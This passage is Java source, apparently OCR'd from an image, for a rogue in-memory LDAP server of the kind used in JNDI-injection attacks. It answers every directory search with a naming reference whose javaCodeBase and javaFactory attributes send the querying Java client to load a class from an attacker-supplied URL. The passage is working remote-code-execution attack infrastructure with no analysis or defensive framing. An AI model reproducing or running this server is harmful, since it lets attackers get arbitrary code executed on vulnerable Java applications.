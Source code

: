 ```java

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```
